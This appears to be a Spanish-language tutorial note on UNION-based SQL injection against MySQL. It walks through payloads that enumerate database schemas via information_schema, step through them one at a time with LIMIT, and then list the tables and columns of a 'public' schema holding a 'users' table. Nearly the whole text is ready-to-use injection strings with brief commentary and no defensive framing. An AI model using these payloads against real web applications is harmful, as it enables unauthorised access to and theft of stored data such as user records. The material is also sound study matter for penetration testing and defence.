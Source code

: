 Sabemos que con esto podemos saber las `databases` que hay en `mysql`...

```mysql
' union select 1,schema_name from information_schema.schemata-- -
```

o

```mysql
' union select 1,group_concat(schema_name) from information_schema.schemata-- -
```

Pero si no fuera por que te lo limitara la pagina, se puede ir 1 por 1...

```mysql
' union select 1,schema_name from information_schema.schemata limit 1-- -
```

```mysql
' union select 1,schema_name from information_schema.schemata limit 0,1-- -
```

```mysql
' union select 1,schema_name from information_schema.schemata limit 1,1-- -
```

```mysql
' union select 1,schema_name from information_schema.schemata limit 3,1-- -
```

Y se van poniendo numeros sucesivamente dependiendo de la base de datos que quieras mostrar, para ello tendrias que ir probando varios numeros hasta que encuentres una interesante...

Con esto listamos la base de datos existentes sabiendo que hay 2 columnas...

```mysql
' union select schema_name,NULL from information_schema.schemata-- - 

#Listar bases de datos
```

Una vez sabiendo que y visualizando la bases de datos que nos aparecen veremos uno llamado `public` por lo que ahora veremos las tablas que se encuentran dentro de `public`...

```mysql
' union select table_name,NULL from information_schema.tables where table_schema='public'-- - 

#Listar tablas
```

Hecho esto nos apareceran 2, `users` y `production`...

```mysql
' union select column_name,NULL from information_schema.columns where table_schema='public' and table_name='users'-- - 

#Listar columnas
```

REPRESENTATIVO:

```mysql
' union select column_name,NULL from information_schema.columns where table_schema='database' and table_name='table'-- -
```
